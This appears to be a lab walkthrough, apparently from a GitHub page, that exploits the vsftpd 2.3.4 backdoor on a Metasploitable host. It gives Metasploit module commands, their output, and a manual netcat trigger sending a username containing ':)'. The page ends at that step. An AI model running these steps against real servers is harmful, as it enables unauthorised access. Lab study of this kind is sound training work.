 
# BACKDOOR EXPLOIT!!!!

---

## Exploit Setup and Execution

Now we can use the exploit for vsftpd:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Target the Metasploit's IP:

```bash
set RHOSTS 192.168.100.10
```

Run the exploit!:

```bash
run
```

Metasploit reports no session created because the exploit didn't trigger the backdoor.

**Result:**

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.100.10:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.10:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

---

## Manual Access Check

We need to manually check if we got access.

Use netcat to connect to Metasploit's IP on port 21:

```bash
nc 192.168.100.10 21
```

**Result:**

```
220 (vsFTPd 2.3.4)
```

The backdoor in vsftpd 2.3.4 activates when you send a specially crafted username containing `:)`.

Run:

```
USER test:)
```
